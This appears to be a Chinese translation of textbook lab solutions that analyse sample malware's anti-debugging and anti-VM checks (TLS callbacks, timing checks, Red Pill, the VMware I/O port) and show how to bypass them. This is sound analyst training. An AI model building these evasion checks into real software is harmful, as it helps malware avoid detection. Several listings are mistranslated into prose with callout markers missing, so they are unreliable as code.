

*图 16-4L：PEview 显示 Lab 16-2 的 TLS 部分*

TLS 部分包含回调函数，这些函数在 OllyDbg 中获取执行并提前终止程序。在 IDA Pro 中，按 CTRL-E 以查看程序所有入口点的位置，如图 16-5L 所示。

*图 16-5L：PEview 显示 Lab 16-2 的 TLS 部分*

双击 0x401060 处的 TLS 回调函数以直接导航到该函数并查看是否存在任何反调试功能。列表 16-5L

显示了 TLS 回调代码。

00401063 cmp [ebp+arg_4], 1

00401067 jnz short loc_401081

00401069 push 0 ; lpWindowName 0040106B push offset ClassName ; "OLLYDBG"

00401070 call ds:FindWindowA 

00401076 test eax, eax

00401078 jz short loc_401081

0040107A push 0 ; int

0040107C call _exit 

*列表 16-5L：FindWindowA 检查 OllyDbg 的系统残留* TLS 回调从将 arg_4 与 1 进行比较开始，以确定 TLS 回调是否是作为进程启动的结果而被调用的。

（TLS 回调函数由系统在不同的时间调用。）换句话说，这种反调试技术仅在程序启动期间执行。

在处，回调调用 FindWindowA 函数，使用类名 OLLYDBG。这个调用使得恶意软件能够轻松地查看 OllyDbg 是否正在运行**662**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

使用其默认窗口名称。如果 FindWindowA 找到窗口，它将返回一个非零值，这将导致退出函数在处终止程序。

要禁用此技术，请在处 NOP 掉退出调用，或使用前一个实验中讨论的 OllyDbg 的 PhantOm 插件。（图 16-3L

显示了 PhantOm 插件的选项。)如果您正在使用 PhantOm 插件，请勾选**加载驱动程序**和**隐藏 OllyDbg 窗口**复选框以防止此技术。

现在将程序加载到 OllyDbg 中，在 0x40123A 处的 strncmp 调用处设置一个断点，并在点击播放按钮之前在 OllyDbg 中添加一个命令行参数 abcd。当您点击播放时，strncmp 函数看起来是在比较 abcd 和 bzqrp@ss；然而，strncmp 只检查 bzqrp@ss 字符串的前 4 个字节。我们得出结论，密码必须是 bzqr，但如果我们尝试这个密码在调试器外部的命令行中，我们会收到密码错误信息。我们进一步深入代码以确定是否还有其他问题。

我们首先在列表中正确标记编码字符串。传递给 strncmp 的堆栈上的第二个参数是 byte_408030（一个全局变量），我们知道它是一个大小为 4 的字节数组。我们将它改为一个 4 字节数组，并将其重命名为 encoded_password。

接下来，我们看到在主函数中调用 strncmp 之前调用了 CreateThread。要查看由此调用创建的线程中的代码，请双击标记为 StartAddress 的参数。这个函数看起来像是一个解码例程，因为它在 encoded_password 上包含许多逻辑和移位操作。

仔细检查解码例程，我们看到访问了 BeingDebugged 标志，如列表 16-6L 中的  和  所示。

00401124 ror encoded_password+2, 7

0040112B mov ebx, large fs:30h 

00401132 xor encoded_password+3, 0C5h

...

0040117D rol encoded_password, 6

00401184 xor encoded_password, 72h

0040118B mov bl, [ebx+2] 

**1 6**

0040118E rol encoded_password+1, 1

...

004011A2 add encoded_password+2, bl 

*列表 16-6L：解码例程中包含解码过程中的反调试功能* PEB 结构被加载到 EBX 中 ，然后 BeingDebugged 标志被移动到 BL 中 。BL 然后在  处用于修改密码。防止程序使用此技术的最简单方法确保 BeingDebugged 标志为 0，这可以通过手动设置或使用 OllyDbg 的 PhantOm 插件来实现，如前一个实验中所述。

我们再次将程序加载到 OllyDbg 中，并在 0x40123A 的 strncmp 调用处设置断点。这次，密码看起来像是 bzrr。但当我们尝试在命令行上使用此密码时，我们再次收到密码错误信息。

实验解决方案

**663**

[www.it-ebooks.info](http://www.it-ebooks.info/)

返回解码例程，我们看到它使用了一个全局变量，byte_40A968，如列表 16-7L 所示。

0040109B mov bl, byte_40A968 

004010A1 or al, 1

...

0040110A rol encoded_password, 2

00401111 add encoded_password+1, bl 

*列表 16-7L：在密码解码中使用的全局 byte_40A968* 在  处，byte_40A968 被移动到 BL 中，BL 被用于解码代码，如  处所示。双击 byte_40A968，我们看到它被初始化为 0，但它有一个到 sub_401020 的交叉引用。该函数在列表 16-8L 中显示。

00401024 mov [ebp+dwErrCode], 3039h

0040102B mov eax, [ebp+dwErrCode]

0040102E push eax ; dwErrCode 0040102F call ds:SetLastError 

00401035 push offset OutputString ; "b"

0040103A call ds:OutputDebugStringA 

00401040 call ds:GetLastError

00401046 cmp eax, [ebp+dwErrCode] 

00401049 jnz short loc_40105A

0040104B mov cl, byte_40A968

00401051 add cl, 1 

00401054 mov byte_40A968, cl

*列表 16-8L：OutputDebugStringA 反调试技术* 在 ，OutputDebugStringA 被调用，将一个字符串（在这种情况下，"b"）发送到调试器进行显示。如果没有附加调试器，则设置错误代码。在 ，SetLastError 将错误代码设置为 0x3039，函数通过  的比较检查该错误是否仍然存在。如果程序在调试器外运行，错误代码会改变；因此，如果错误代码没有改变（在调试器中运行），比较将设置零标志。如果这个检查成功，代码将 byte_40A968 的字节增加 1

在 . 打败这种技术的最简单方法是在  处 NOP 出加法指令。

接下来，我们想要追踪列表 16-8L

(sub_401020) 被调用。我们检查交叉引用并看到 sub_401020

是从 TLS 回调中调用的，如列表 16-9L（粗体所示）。

00401081 cmp [ebp+arg_4], 2

00401085 jnz short loc_40108C

00401087 call **sub_401020**

*列表 16-9L：TLS 回调内的检查和调用** **664**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

列表 16-9L 中的代码首先比较 arg_4 与数字 2。

回想我们之前的讨论，TLS 回调中的 arg_4 用于确定 TLS 回调何时被调用：1 用于进程启动时，2 用于线程启动时，3 用于进程终止时。因此，当 CreateThread 执行并导致 OutputDebugStringA 执行时，这个 TLS 回调再次被调用。

**获取正确密码**

为了最终获取密码，我们首先安装并设置 OllyDbg PhantOm 插件，以保护我们免受 BeingDebugged 标志检查和 FindWindow 检查。我们将程序加载到 OllyDbg 中，NOP 出 0x401051 处的加法指令，并在 strncmp 调用（0x40123A）处设置断点。

这次，密码看起来是 byrr。在命令行尝试这个密码，我们得到以下消息：

你输入了正确的密码！

**实验室 16-3 解决方案**

***简短回答***

1\.

除了导入函数和字符串 cmd 以及 cmd.exe 之外，恶意软件中几乎没有其他有用的字符串。

2\.

当你运行这个恶意软件时，它看起来除了终止之外什么也不做。

3\.

你必须将恶意软件重命名为 *peo.exe* 才能正常运行。

4\.

这种恶意软件使用了三种不同的反调试定时技术：rdtsc、GetTickCount 和 QueryPerformanceCounter。

5\.

如果 QueryPerformanceCounter 检查成功，恶意软件会修改程序正常运行所需的字符串。如果 GetTickCount 检查成功，恶意软件将引发未处理的异常，**1 6**

导致程序崩溃。如果 rdtsc 检查成功，恶意软件将尝试从磁盘删除自身。

6\.

反调试时间检查成功，因为恶意软件引发并捕获了一个异常，它通过操纵结构化异常处理（SEH）机制来处理该异常，在两次调用时间检查函数之间包含自己的异常处理程序。

与调试器外部相比，异常处理在调试器中要慢得多。

7\.

恶意软件使用域名 *adg.malwareanalysisbook.com*。

***详细分析***

如实验室描述中所述，这种恶意软件与 *Lab09-02.exe* 相同，只是增加了反调试技术。一个好的开始是查看实验室解决方案

**665**

[www.it-ebooks.info](http://www.it-ebooks.info/)

通过做实验 9-2 或回顾你的答案来刷新你对这种恶意软件功能的记忆。

静态分析 *Lab16-03.exe* 显示它与 *Lab09-02.exe* 类似，除了 cmd.exe 之外几乎没有可见的字符串。当我们把 *Lab16-03.exe* 加载到 IDA Pro 中时，我们看到这个恶意软件中存在许多相同的功能。

列表 16-10L 显示恶意软件使用 gethostbyname 解析域名并使用端口 9999，与实验 9-2 相同。

004015DB call ds:gethostbyname

...

0040160D push 9999 ; hostshort 00401612 call ds:htons

*列表 16-10L：与实验 9-2 相同的调用，解析域名并获取网络字节顺序的端口* 

由于这种恶意软件使用 DNS 并通过端口 9999 连接，我们使用 ApateDNS 和 Netcat 设置了一个动态环境。然而，当我们第一次运行恶意软件时，它没有执行 DNS 或在端口 9999 上连接。回想一下实验 9-2，恶意软件的名称需要是 *ocl.exe*。让我们看看这里是否也是这样。

在恶意软件主函数开始时，似乎在堆栈上创建了两个字符串：1qbz2wsx3edc 和 ocl.exe。我们将恶意软件重命名为 *ocl.exe* 以查看它是否连接出去。它没有，这意味着在比较之前必须修改名称 *ocl.exe*。

列表 16-11L 显示了字符串比较，检查启动的恶意软件是否具有正确的名称。

0040150A mov ecx, [ebp+Str2] 

00401510 push ecx ; Str2

00401511 lea edx, [ebp+Str1] 

00401517 push edx ; Str1

00401518 call _strncmp

*列表 16-11L：使用 strncmp 进行模块名称比较* 在  处，我们看到 Str2，它将包含启动的恶意软件的当前名称。在  处，我们看到 Str1。回顾代码，似乎 Str1 是我们的 ocl.exe 字符串，但在比较之前传递给了 sub_4011E0。让我们将这个恶意软件加载到 OllyDbg 中，并在 0x401518 处的 strncmp 调用处设置断点。

当我们设置断点并点击播放时，我们得到一个由 OllyDbg 捕获的除以零异常。你可以按 SHIFT-F9 将异常传递给程序或更改选项将所有异常传递给程序。

在我们将异常传递给程序后，它被处理，我们到达了 0x401518 断点。我们看到 qgr.exe 在栈上，要与其比较 Lab16-03.exe，因此我们尝试将恶意软件重命名为*qgr.exe*。然而，当我们尝试以*qgr.exe*的名称运行它时，恶意软件仍然不会执行 DNS 查询或连接出去。

**666**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**QueryPerformanceCounter 函数** 在 strncmp 函数之前，我们需要回顾 sub_4011E0 函数（其中传递了 ocl.exe 字符串）。检查 sub_4011E0，我们看到它调用了两次 QueryPerformanceCounter，如清单 16-12L（粗体所示）所示。

00401219 lea eax, [ebp+PerformanceCount]

0040121C push eax ; lpPerformanceCount 0040121D call ds:**QueryPerformanceCounter**

...

0040126A lea ecx, [ebp+var_110]

00401270 push ecx ; lpPerformanceCount 00401271 call ds:**QueryPerformanceCounter**

00401277 mov edx, [ebp+var_110]

0040127D sub edx, dword ptr [ebp+PerformanceCount] 

00401280 mov [ebp+var_114], edx

00401286 cmp [ebp+var_114], 4B0h 

00401290 jle short loc_40129C

00401292 mov [ebp+var_118], 2 

*清单 16-12L：使用 QueryPerformanceCounter 进行的反调试定时检查* 两个对 QueryPerformanceCounter 的调用包围着我们将要检查的代码，但到目前为止，我们将查看函数的其余部分。恶意软件从第一次捕获（lpPerformanceCount）减去第二次捕获（var_110）。接下来，在处，恶意软件将时间差的结果与 0x4B0（十进制中的 1200）比较。如果时间差超过 1200，var_118 将被设置为 2；否则，它将保持在 1（其初始化值）。

在此检查之后，紧接着是 0x40129C 处的 for 循环的开始。

（循环未在此处显示）使用 var_118 操作传递给函数的字符串（arg_0）。因此，QueryPerformanceCounter 检查影响了字符串结果。在调试器中与正常运行时相比，strncmp 中使用的字符串不同。为了获得正确的字符串，我们将确保 var_118

当进入此循环时，is 设置为 1。为此，我们在 strncmp 处设置断点，并 NOP 掉处的指令。现在我们看到，为了使恶意软件在调试器外正确运行，文件名必须是*peo.exe*。

**1 6**

让我们检查由两个 QueryPerformanceCounter 调用包围的代码。

清单 16-13L 显示了以 call/pop 组合开始的代码，用于将当前 EIP 放入 EAX 寄存器。

00401223 call $+5

00401228 pop eax

00401229 xor ecx, ecx

0040122B mov edi, eax

0040122D xor ebx, ebx

0040122F add ebx, 2Ch 

00401232 add eax, ebx

00401234 push eax 

00401235 push large dword ptr fs:0

0040123C mov large fs:0, esp 

00401243 div ecx

00401245 sub edi, 0D6Ah

实验室解决方案

**667**

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040124B mov ecx, 0Ch

00401250 jmp short loc_401262

00401252 repne stosb

00401254 mov ecx, [esp+0Ch] 

00401258 add dword ptr [ecx+0B8h], 2

0040125F xor eax, eax

00401261 retn

00401262 pop large dword ptr fs:0 

00401269 pop eax

*列表 16-13L：恶意软件设置自己的异常处理程序并触发异常* 一旦恶意软件将当前的 EIP 放入 EAX，它就在处向其添加 0x2C。

这导致 EAX 寄存器包含 0x2C + 0x401228 = 0x401254，它引用了处的代码。接下来，恶意软件修改 SEH 以将 0x401254 地址插入 SEH 调用链，如第十五章所述。

这种操作发生在到之间。当 div ecx 指令执行时，由于 ECX 被设置为 0，它会导致除以零异常发生。

在代码的早期部分，这反过来又导致恶意软件异常处理程序在处执行。接下来的两条指令在返回执行到除以零之后处理除以零异常。

恶意软件经历所有这些麻烦来执行在调试器内部与外部具有剧烈时间差异的代码。正如我们在第八章中解释的，当在调试器中运行时，异常的处理方式不同，处理时间会稍微长一些。这个小的时差足以让恶意软件确定它是否在调试器中执行。

**“GetTickCount 函数”**

接下来，我们在 0x4015DB 处的 gethostbyname 设置一个断点，以便查看恶意软件使用的域名，我们看到恶意软件在未触碰到断点的情况下终止。检查主函数中的代码，我们看到有两个对 GetTickCount 的调用，如列表 16-14L（粗体所示）。

00401584 call ds:**GetTickCount**

0040158A mov [ebp+var_2B4], eax

00401590 call sub_401000 

00401595 call ds:**GetTickCount**

0040159B mov [ebp+var_2BC], eax

004015A1 mov ecx, [ebp+var_2BC]

004015A7 sub ecx, [ebp+var_2B4]

004015AD cmp ecx, 1 

004015B0 jbe short loc_4015B7 

004015B2 xor eax, eax

004015B4 mov [eax], edx 

004015B6 retn

*列表 16-14L：使用 GetTickCount 进行反调试定时检查** **668**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在两次对 GetTickCount 的调用之间，处的 sub_401000 调用包含我们在之前分析 QueryPerformanceCounter 方法时看到的相同的 SEH 操作代码。接下来，在处，恶意软件比较毫秒级时间差的结果。如果时间差超过一毫秒，代码将执行处的指令，这是非法的，因为在之前的指令中 EAX 被设置为 0。这导致恶意软件崩溃。为了修复这个问题，我们只需要确保处的跳转被执行。

**“rdtsc 指令”**

检查解码方法 sub_401300，我们看到第 16-3 实验室中的代码

与第 9-2 实验室中的解码方法不同。在第 16-3 实验室中，我们发现 rdtsc 指令被使用了两次，而熟悉的 SEH 操作代码位于其中。rdtsc 指令在列表 16-15L（粗体）中显示，我们已从列表中省略了 SEH 操作代码。

00401323 **rdtsc**

00401325 push eax 

...

0040136D **rdtsc**

0040136F sub eax, [esp+20h+var_20] 

00401372 mov [ebp+var_4], eax

00401375 pop eax

00401376 pop eax

00401377 cmp [ebp+var_4], 7A120h 

0040137E jbe short loc_401385

00401380 call sub_4010E0 

*列表 16-15L：使用 rdtsc 的防调试时间检查* 恶意软件将 rdtsc 指令的结果推送到堆栈上（），然后再次执行 rdtsc 指令，这次从之前推送到堆栈的值（EAX）中减去。IDA Pro 将第一个结果错误地标记为局部变量，var_20。要纠正这一点，右键单击 var_20 并将指令更改为 sub eax, [esp]。

接下来，时间差存储在 var_4 中，并与 0x7A120 进行比较

**1 6**

（500000 十进制）在 。如果时间差超过 500000，则在  处调用 sub_4010E0。sub_4010E0 函数试图从磁盘删除恶意软件，但由于它在调试器中运行而失败。尽管如此，由于函数末尾的 exit 调用，恶意软件将终止。

**总结**

Lab 16-3 使用三种不同的防调试技术来阻止在调试器中对恶意软件进行分析：QueryPerformanceCounter、GetTickCount 和 rdtsc。打败这种恶意软件的最佳方式是将跳转指令 NOP-out 或强制它们执行，即将它们从条件跳转更改为非条件跳转。一旦我们弄清楚如何在调试器中重命名恶意软件（到 *peo.exe*），我们就可以退出调试器，重命名文件，并有效地使用基本的动态分析技术。

实验室解决方案

**669**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 17-1 解决方案**

***简短回答***

1.

这种恶意软件使用易受攻击的 x86 指令来确定它是否在虚拟机中运行。

2.

脚本找到了三个潜在的防虚拟机指令，并用红色突出显示：sidt、str 和 sldt。

3.

如果 sidt 或 str 检测到 VMware，恶意软件将自行删除。如果 sldt 指令检测到恶意软件，恶意软件将退出而不创建主线程，但它将创建恶意服务 MalService。

4.

在我们的机器上，运行 VMware Workstation 7 和 Intel Core i7，没有任何技术成功。你的结果将取决于你使用的硬件和软件。

5.

详见详细分析，了解为什么每种技术成功或失败的原因。

6.

你可以在调试恶意软件时 NOP-out sidt 和 str 指令或翻转跳转标志。

***详细分析***

因为这种恶意软件与 *Lab07-01.exe* 相同，只是增加了防虚拟机功能

技术，分析的好起点是 Lab 7-1。扫描恶意软件以查找新函数，我们发现两个：sub_401000，一个自我删除方法，和 sub_401100，它似乎调用 sldt 指令。我们可以在虚拟机中运行 *Lab17-01.exe* 并查看与 Lab 7-1 有何不同。动态分析结果因系统而异，可能与 Lab 7-1 相同

在你的机器上。

**搜索易受攻击的指令**

我们可以使用 IDA Pro 的 Python 脚本功能（在商业版本中可用）自动搜索易受攻击的 x86 指令。使用第十七章中的列表 17-4 创建自己的脚本，或使用实验室提供的名为 *findAntiVM.py* 的脚本。要在 IDA Pro 中运行脚本，请选择 **文件****脚本文件**并打开 *findAntiVM.py*。你应该在 IDA Pro 的输出窗口中看到以下内容：

易受攻击的反 VM 指令数量：3

此输出表明脚本检测到三种易受攻击的指令类型。在 IDA Pro 的反汇编窗口中滚动，我们看到三个用红色突出显示的指令：sidt、str 和 sldt。（如果您没有 IDA Pro 的商业版本，请使用 **搜索****文本** 搜索这些指令。）

我们将分析每个易受攻击的指令，重点关注如果虚拟机技术成功会发生什么，如何击败它，以及为什么它在我们的机器上工作或不工作。

**670**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**`sidt` 指令—Red Pill**

`sidt` 指令（也称为 Red Pill）是我们在这个恶意软件中遇到的第一个易受攻击的指令，如列表 17-1L 所示。该指令将 sidt 结果 var_420 的最高 4 个字节存储在 。

用于代码后续使用。

004011B5 sidt fword ptr [ebp+var_428] 

004011BC mov eax, dword ptr [ebp+var_428+2]

004011C2 mov [ebp+var_420], eax 

*列表 17-1L：在实验室 17-1 中使用 Red Pill*

恶意软件在二进制代码中稍后检查 VM，如列表 17-2L 所示。

004011DD mov ecx, [ebp+var_420]

004011E3 shr ecx, 18h 

004011E6 cmp ecx, 0FFh

004011EC jz loc_40132F 

*列表 17-2L：使用 `sidt` 指令后的比较和条件跳转检查* sidt 结果（var_420）的最高 4 个字节在  处进行了移位，因为 sidt 的第六字节（var_20 的第四字节）包含基本内存地址的起始部分。那个第五个字节与 0xFF（VMware 的签名）进行比较。

如果在  处执行跳转，恶意软件检测到虚拟环境，并将调用 0x401000 处的函数来终止它并从磁盘上删除它。

在我们的测试环境中检查失败，可能是因为我们在一个多处理器机器上。当我们设置断点在 0x4011EC 时，我们看到 ECX 不是 0xFF（VMware 的签名）。如果 Red Pill 在你的环境中有效，请在  处 NOP-out `sidt` 指令或强制 jz 不在调试器中跳转。

**`str` 指令**

`str` 指令是恶意软件中的第二个易受攻击的指令，如 0x401204 行所示：

**1 7**

00401204 **str** word ptr [ebp+var_418]

`str` 指令将任务状态段（TSS）加载到 4 字节局部变量 var_418。恶意软件在调用 GetModuleFileName 之后才再次使用这个局部变量。

如果 str 指令成功，恶意软件将不会创建 MalService 服务。列表 17-3L 显示了针对前两个字节的检查，这两个字节必须等于 0 和 0x40 ，才能匹配 VMware 的签名。

00401229 mov edx, [ebp+var_418]

0040122F and edx, 0FFh

00401235 test edx, edx 

实验解决方案

**671**

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401237 jnz short loc_40124E

00401239 mov eax, [ebp+var_418+1]

0040123F and eax, 0FFh

00401244 cmp eax, 40h 

00401247 jnz short loc_40124E

00401249 jmp loc_401338

*列表 17-3L：检查 str 指令的结果* 在我们的环境中，这个检查失败了。当我们设置断点在 0x40122F 时，我们看到 var_418 包含 0x28，而不是 VMware 的签名 0x4000。

如果在您的环境中 str 指令检查成功，则 NOP 掉 str 指令或在运行时强制 jnz 在 0x401237 处跳转到调试器。

**sldt 指令—无 Pill**

sldt 指令（也称为 No Pill）是这种恶意软件中使用的最终反 VM 技术。这个技术通过 IDA Pro 标记的 sub_401100 函数找到。列表 17-4L 显示了 sub_401100 中的 sldt 使用。

00401109 mov eax, dword_406048 ;0xDDCCBBAA

0040110E mov [ebp+var_8], eax 

...

00401121 sldt word ptr [ebp+var_8]

00401125 mov edx, [ebp+var_8]

00401128 mov [ebp+var_C], edx

0040112B mov eax, [ebp+var_C] 

*列表 17-4L：sldt 指令的设置和执行* 如您所见，var_8 在处被设置为 EAX，而 EAX 被设置为 dword_406048

在之前的指令中。dword_406048 包含一个初始化常数（0xDDCCBBAA）。sldt 指令的结果存储在 var_8 中，并最终在处移动到 EAX 中。

在此函数返回后，结果将被比较，以查看初始化常数的低阶位是否设置为零，如列表 17-5L 所示。

在处。如果低字节不是零，则会执行跳转，恶意软件将不会创建线程而终止。

004012D1 call sub_401100

004012D6 cmp eax, 0DDCC0000h 

004012DB jnz short loc_40132B

*列表 17-5L：检查 sldt 指令执行的结果* 在我们的环境中，这个检查失败了。当我们设置断点在 0x4012D6 时，我们发现 EAX 等于 0xDDCC0000，这意味着对 VM 的检查失败了。

如果在您的环境中 No Pill 有效，您将需要 NOP 掉列表 17-5L 中的三个指令或者在调试器中强制 jnz 不跳转。

**672**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验 17-2 解决方案**

***简短答案***

1.

导出包括 InstallRT, InstallSA, InstallSB, PSLIST, ServiceMain, StartEXS, UninstallRT, UninstallSA 和 UninstallSB。

2.

使用*.bat*文件从系统中删除 DLL。

3.

创建一个包含自删除代码的*.bat*文件，以及一个名为*xinstall.log*的文件，其中包含字符串"Found Virtual Machine, Install Cancel"。

4.

这种恶意软件通过使用 x86 指令，使用魔法值 VX 和操作 0xA 查询 VMware 后门 I/O 通信端口。

5.

要使恶意软件安装，请在运行时修补 0x100061DB 处的 in 指令。

6.

要永久禁用 VM 检查，请使用十六进制编辑器修改二进制中的静态字符串，从[This is DVM]5 更改为[This is DVM]0。或者，在 OllyDbg 中 NOP 掉检查，并将更改写入磁盘。

7.

InstallRT 通过 DLL 注入执行安装，其中包含一个可选参数，用于指定要注入到其中的进程。InstallSA 通过服务安装执行安装。InstallSB 通过服务安装执行安装，如果要覆盖的服务仍在运行，则还会进行 DLL 注入。

***详细分析***

实验室 17-2 是一段广泛的恶意软件。本实验的目标是展示反虚拟机技术如何减缓分析恶意软件的努力。我们将重点讨论禁用和理解恶意软件的反虚拟机方面。我们将把完全反汇编此样本中恶意软件的任务留给你。

首先，将恶意软件加载到 PEview 中，以检查其导出和导入项。恶意软件广泛的导入列表表明它具有广泛的功能，包括用于操作注册表（RegSetValueEx）、操作服务（ChangeService）、屏幕捕获（BitBlt）、进程列表（CreateToolhelp32Snapshot）、进程注入（CreateRemoteThread）和网络功能（WS2_32.dll）的函数。我们还看到一组导出函数，主要与恶意软件的安装或删除相关，如下所示：**1 7**

InstallRT InstallSA InstallSB

PSLIST

ServiceMain

StartEXS

UninstallRT UninstallSA UninstallSB

导出列表中的 ServiceMain 函数告诉我们，这种恶意软件可能可以作为服务运行。以 SA 和 SB 结尾的安装导出名称可能是与服务安装相关的技术。

实验室解决方案

**673**

[www.it-ebooks.info](http://www.it-ebooks.info/)



我们尝试使用动态分析技术运行此恶意软件并对其进行监控。使用 procmon，我们在*rundll32.exe*上设置了一个过滤器（因为我们将会用它从命令行运行恶意软件），然后在我们的虚拟机内部从命令行运行以下命令：

rundll32.exe Lab17-02.dll,InstallRT

我们立即注意到恶意软件已从系统中删除，并留下了一个文件*xinstall.log*。此文件包含字符串"Found Virtual Machine, Install Cancel"，这意味着二进制文件中存在反虚拟机技术。

**注意**

*你有时会在真实恶意软件中遇到日志记录功能，因为日志错误可以帮助恶意软件作者确定他们需要更改什么才能使攻击成功。此外，通过记录他们遇到的系统配置的结果，例如虚拟机，攻击者可以识别他们在攻击中可能遇到的问题。*

当我们检查我们的 procmon 输出时，我们看到恶意软件创建了 *vmselfdel.bat* 文件，以便恶意软件删除自己。当我们将恶意软件加载到 IDA Pro 并从 vmselfdel.bat 字符串回溯交叉引用时，我们达到 sub_10005567，它显示了写入 *.bat* 文件的自我删除脚本代码。

接下来，我们关注确定恶意软件为什么删除自己。我们可以使用之前实验中的 *findAntiVM.py* 脚本，或者通过检查到 sub_10005567（*vmselfdel.bat* 创建方法）的交叉引用反向遍历代码。让我们检查交叉引用，如图 17-1L 所示。

*图 17-1L：对 sub_100055567 的交叉引用*

如图 17-1L 所示，有三个对这个函数的交叉引用，每个都位于恶意软件的不同导出中。

跟随到 InstallRT 的交叉引用，我们看到在 InstallRT 导出函数中显示的列表 17-6L 中的代码。

1000D870 推送 unk_1008E5F0 的偏移量 ; char *

1000D875  调用 sub_10003592

1000D87A  将 [esp+8+var_8] 设置为 **aFoundVirtualMa 的偏移量 ; "Found Virtual Machine,..."**

1000D881  调用 sub_10003592

1000D886 弹出 ecx

1000D887  调用 sub_10005567

1000D88C 短跳转 loc_1000D8A4

*列表 17-6L：在 InstallRT 中的反 VM 检查*

在  处的调用是到 vmselfdel.bat 函数。在  处，我们看到对之前在 *xinstall.log* 中找到的字符串的引用，如粗体所示。检查 **674**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

在  和  的函数中，我们看到  打开 *xinstall.log*， 将 "Found Virtual Machine, Install Cancel" 记录到文件中。

以图形模式检查列表 17-6L 中显示的代码部分，我们看到有两个代码路径到它，都是在调用 sub_10006119 后的条件跳转。

或 sub_10006196\. 因为 sub_10006119 函数是空的，我们知道 sub_10006196 必须包含我们的反 VM 技术。列表 17-7L 显示了 sub_10006196\ 的指令子集。

100061C7 将 eax 设置为 564D5868h ;'VMXh' 

100061CC 将 ebx 设置为 0

100061D1 将 ecx 设置为 0Ah

100061D6 将 edx 设置为 5658h ;'VX' 

100061DB 在 eax, dx 中 

100061DC 比较 ebx，564D5868h ;'VMXh' 

100061E2 将 [ebp+var_1C] 设置为 setz

...

100061FA 将 al 设置为 [ebp+var_1C]

*列表 17-7L：查询 I/O 通信端口*

恶意软件正在使用  处的 in 指令查询 I/O 通信端口（0x5668）。(VMware 使用虚拟 I/O 端口在虚拟机与宿主操作系统之间进行通信。)这个 VMware 端口在 EDX 中加载。

，并且在前一个指令中执行的操作被加载到 ECX 中。

在这种情况下，操作是 0xA，表示“获取 VMware 版本类型。” EAX

装载了魔法数字 0x564d5868 (VMXh) 在 ，并且恶意软件检查在 in 指令后立即回显的魔法数字 cmp 在 。比较的结果被移动到 var_1C，并最终作为 sub_10006196 的返回值移动到 AL。

此恶意软件似乎不关心 VMware 版本。它只想查看 I/O 通信端口是否以魔法值回显。在运行时，我们可以通过将 in 指令替换为 NOP 来绕过后门 I/O 通信端口技术。插入 NOP

允许程序完成安装。

在进一步分析动态导入之前，让我们继续检查 InstallRT 导出。列表 17-8L 中的代码取自 InstallRT 导出的开始。 处的 jz 指令确定是否执行 anti-1 7

将执行 VM 检查。

1000D847 将 eax 设置为 off_10019034 ; **[这是 DVM]5**

1000D84C 推送 esi

1000D84D 将 esi 设置为 ds:atoi

1000D853 添加 eax, 0Dh 

1000D856 推送 eax ; Str

1000D857 调用 esi ; **atoi**

1000D859 测试 eax, eax 

1000D85B 弹出 ecx

1000D85C jz short loc_1000D88E 

*列表 17-8L：检查 DVM 静态配置选项* 实验室解决方案

**675**

[www.it-ebooks.info](http://www.it-ebooks.info/)

代码使用 **atoi**（以粗体显示）将字符串转换为数字。数字从字符串 [这是 DVM]5（也以粗体显示）中解析出来。对 [这是 DVM]5 的引用被加载到 EAX，并且 EAX 通过 0xD

在  处，将字符串指针移动到 5 个字符，通过调用 atoi 将其转换为数字 5。 处的测试检查解析的数字是否为 0。

**注意**

*DVM 是一个静态配置选项。如果我们用十六进制编辑器打开恶意软件，我们可以* *手动将字符串更改为 [这是 DVM]0，恶意软件将不再* *执行抗 VM 检查。*

以下摘录显示了 *Lab17-02.exe* 中的静态配置选项子集，域名和端口 80 以粗体显示。LOG

选项（也以粗体显示）可能是恶意软件用来确定是否创建并使用 *xinstall.log* 的。

[这是 RNA]newsnews

[这是 RDO]**newsnews.practicalmalwareanalysis.com**

[这是 RPO]**80**

[这是 DVM]5

[这是 SSD]

[这是 **LOG**]1

我们将通过分析方法 sub_1000D3D0 来完成对 InstallRT 的分析。此方法很长，但所有导入的函数和日志字符串使分析过程变得容易得多。

sub_1000D3D0 方法首先将恶意软件复制到 Windows 系统目录。如列表 17-9L 所示，InstallRT 采取一个可选参数。strlen 在  处检查参数的字符串长度。如果字符串长度为 0（表示没有参数），则使用 iexplore.exe（以粗体显示）。

1000D50E 推送 [ebp+process_name] ; Str

1000D511 调用 strlen 

1000D516 测试 eax, eax

1000D518 弹出 ecx

1000D519 jnz short loc_1000D522

1000D51B 推送偏移量 **aIexplore_exe ; "iexplore.exe"**

*列表 17-9L：用作目标进程名称的参数，默认为 iexplore.exe* 该导出参数（或 iexplore.exe）被用作此恶意软件的 DLL 注入的目标进程。在 0x1000D53A 处，恶意软件调用一个函数在进程列表中查找目标进程。如果找到进程，恶意软件将使用进程的 PID 在对 sub_1000D10D 的调用中使用一个常见的进程注入三联调用：VirtualAllocEx、WriteProcessMemory 和 CreateRemoteThread。我们得出结论，InstallRT 通过 DLL 注入来启动恶意软件，我们通过运行恶意软件（在修补静态 DVM 选项后）并使用 Process Explorer 来查看 DLL 被加载到另一个进程来确认这一点。

**676**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，我们关注 InstallSA 导出，它与 InstallRT 具有相同的高级结构。这两个导出在执行反虚拟机检查之前都会检查 DVM 静态配置选项。两者之间的唯一区别是 InstallSA 调用 sub_1000D920 以实现其主要功能。

